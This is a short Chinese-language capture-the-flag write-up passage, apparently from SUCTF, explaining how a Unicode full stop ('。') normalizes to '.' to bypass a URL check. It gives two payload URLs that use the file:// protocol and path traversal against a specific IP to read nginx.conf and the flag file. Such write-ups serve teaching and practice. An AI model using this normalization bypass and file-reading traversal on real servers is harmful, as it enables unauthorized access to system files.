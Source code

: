 然后一直http协议fuzz啥也没，看大佬的write up才知道是可以用file协议

为什么会 。 会变为 . ,具体原因在下面这个文档

[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

在nginx配置文件找到flag存放目录,Payload
```
http://47.111.59.243:9000/getUrl?url=file://suctf。cc/../../../usr/local/nginx/conf/nginx.conf
```

最后拿到flag的Payload
```
http://47.111.59.243:9000/getUrl?url=file://suctf。cc/../../../usr/fffffflag
```


